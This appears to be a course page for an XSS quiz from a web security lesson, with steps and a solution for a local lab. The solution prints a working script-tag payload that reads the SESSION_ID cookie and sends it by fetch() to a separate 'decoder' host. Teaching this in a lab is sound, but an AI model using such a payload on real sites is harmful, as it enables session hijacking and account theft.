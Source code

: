 # Lesson 5.12 Quiz: XSS Quiz

1. Send a fetch request from the badwesite to the decoder website
2. the fetch URL must include a key (http://example.com/?key=)
3. Use JavaScript to set the key's value to the badwebsite's SESSION_ID cookie

[Supporing Materials](http://video.udacity-data.com.s3.amazonaws.com/topher/2016/June/575717f7_l5-xss-binary/l5-xss-binary.zip)

On console in http://badwebsite.127.0.0.1.xip.io:8080, type in:
- document.cookie
- document.cookie.split('=')
- document.cookie.split('=')[1]

OR
```
document.cookie.slice(
  document.cookie.indexOf('SESSION_ID')
).split('=')[1]
```

Solution:
```
<script>fetch( 'http://decoder.127.0.0.1.xip.io:8080/?key=' + document.cookie.slice( document.cookie.indexOf('SESSION_ID') ).split('=')[1] )</script>
```
- - -
Next up: [Security Outro](ND024_Part4_Lesson05_13.md) or return to [Table Of Contents](./ND024_TableOfContents.md)

